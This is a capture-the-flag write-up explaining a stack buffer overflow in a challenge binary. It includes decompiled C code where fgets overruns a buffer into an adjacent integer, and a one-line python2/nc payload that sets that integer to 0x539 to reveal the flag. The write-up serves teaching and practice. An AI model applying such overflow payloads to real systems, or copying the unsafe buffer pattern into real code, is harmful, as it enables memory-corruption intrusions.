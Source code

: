 
# A Kind Of Magic

We get a binary, which asks us for a magic input and outputs "Your magic is", followed by a number. This is 0 unless the input is fairly large. We can test the length and find that the output is 0 until we write the 40th character - then it will always be 10.

That it is 10 is interesting, since this is the ASCII value of a newline - so it could seem like we fill a buffer with 44 characters and the next character is printed back, which will then always be a newline.

Looking into the code in Cutter and decompiling, it looks fairly simple:

```clike=
main(int argc, char **argv)
{
    char **var_40h;
    int var_34h;
    char *s;
    unsigned long var_4h;

    var_4h = 0;
    puts("Is this a kind of magic? What is your magic?: ");
    fflush(_stdout);
    fgets(&s, 0x40, _stdin);
    printf("You entered %s\n", &s);
    printf("Your magic is: %d\n", var_4h);
    fflush(_stdout);
    if (var_4h == 0x539) {
        puts("Whoa we got a magic man here!");
        fflush(_stdout);
        system("cat flag.txt");
    } else {
        puts("You need to challenge the doors of time");
        fflush(_stdout);
    }
    return 0;
}
```

It initializes a string `char* s` and a value `var_4h = 0`. It then takes an input up to 64 characters and assigns to the string. But perhaps the buffer for the string is not as large (44 characters according to our test). This means the next characters overflow into `var_4h`, which is then printed. So we can basically insert any number we want into `var_4h`.

This is very useful, since the next condition checks if `var_4h == 0x539` and if so, we get the flag.

So we can simply pass in 44 random bytes followed by 0x539 (followed by some null bytes to get the newline out of the integer and into the next field):

```
python2 -c "print b'A' * 44 + b'\x39\x05\x00\x00'" | nc 143.198.184.186 5000
```
